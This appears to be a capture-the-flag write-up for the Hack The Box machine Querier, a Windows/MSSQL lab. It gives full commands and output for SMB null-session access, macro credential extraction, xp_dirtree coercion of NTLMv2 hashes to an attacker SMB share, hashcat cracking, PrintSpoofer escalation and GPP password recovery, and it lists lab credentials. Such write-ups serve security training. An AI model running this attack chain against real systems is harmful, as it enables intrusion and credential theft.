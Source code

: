 ```yaml
---
description: >-
  Querier HTB Machine
title: Querier (Medium)                # Add title here
date: 2023-04-24 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Medium]                     # Change Templates to Writeup
tags: [smb null session, macro, xslm, mssql, xp_dirtree, impacket-smbserver, ntlmv2, printspoofer, seimpersonateprivilege, gpp credentials]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Querier.png                # Add infocard image here for post preview image
---
```

### Host entries:
```bash
10.10.10.125 QUERIER querier.htb.local querier.htb
```
If Active Directory => [NTP Synchronization](https://shuciran.github.io/posts/NTP-Synchronization/) with the domain controller.

### Content

- SMB Null Session
- Macro identification on XSLM
- MSSQL connection and XP_DIRTREE abusing
- Capturing Hash NTLMv2 with impacket-smbserver
- SeImpersonatePrivilege abuse with PrintSpoofer
- Extra: Hardcoded Credentials on GPP

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.125
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.125 ()   Status: Up
Host: 10.10.10.125 ()   Ports: 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 1433/open/tcp//ms-sql-s///, 5985/open/tcp//wsman///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////, 49671/open/tcp/////
```
Services and Versions running:
```bash
nmap -sCV -p 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-24 22:25 EDT
Nmap scan report for 10.10.10.125
Host is up (0.14s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-25T02:05:06
|_Not valid after:  2053-04-25T02:05:06
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
|_ssl-date: 2023-04-25T02:26:42+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time:
|   date: 2023-04-25T02:26:38
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

SMB Server allows Null Session inside the share we identify the following file:
```bash
smbclient //10.10.10.125/Reports -N             

Try "help" to get a list of possible commands.
smb: \> 
smb: \> dir
  .                                   D        0  Mon Jan 28 17:23:48 2019
  ..                                  D        0  Mon Jan 28 17:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 16:21:34 2019
```
Analyzing such file with libre office we can see that there are some macros inside the file, and within there are some credentials:

![Description](/assets/img/Pasted-image-20230424201223.png)

### Exploitation

Credentials can be abused to connect to the database via `-windows-auth` flag with `impacket-mssqlclient`
```bash
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -p 1433 -windows-auth
```

Inside the database we figure out that we can abuse the store procedure `xp_dirtree` as follows:
```bash
# On MSSQL Database
SQL> xp_dirtree '\\10.10.16.3\smbFolder'

# On Local SMB Server
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000
```

Then we proceed to crack the hash with hashcat:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 5600 -a 0 hash.txt rockyou.txt

mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000:corporate568
```

### Root privesc
Enumerating the privileges with this user we identify the SeImpersonatePrivilege:

```powershell
C:\Windows\Temp\privesc> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name   Description       
==============   ===========       
SeAssignPrimaryTokenPrivilege Replace a process level token SelncreaseQuotaPrivitege	Adjust memory quotas for a	process
SeChangeNotifyPrivilege	Bypass traverse checking
SelmpersonatePrivilege	Impersonate a client after	authentication
SeCreateGlobalPrivilege	Create global objects
SelncreaseWorkingSetPrivilege Increase a process working	set

```
Also enumerating the system server info we identify that this server is a Windows Server 2019:
```powershell
C:\Users\Administrator\Desktop> systemínfo
Host Name: QUERIER
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
```
In order to abuse of SeImpersonatePrivilege we can abuse of [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to escalate privileges:
```powershell
C:\Windows\Temp\privesc> PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SelmpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami whoami
nt authority\system
```

### Post Exploitation
There is another way to escalate privileges through hardcoded credentials of Administrator (this are to be found via WinPEAS.exe):
```powershell
C:\Windows\Temp\privesc> winPEASx64.exe

....
Cached GPP Passwords

C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Name: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48
...
```

### Credentials
```text
reporting:PcwTWTHRwryjc$c6
mssql-svc:corporate568
Administrator:MyUnclesAreMarioAndLuigi!!1!
```


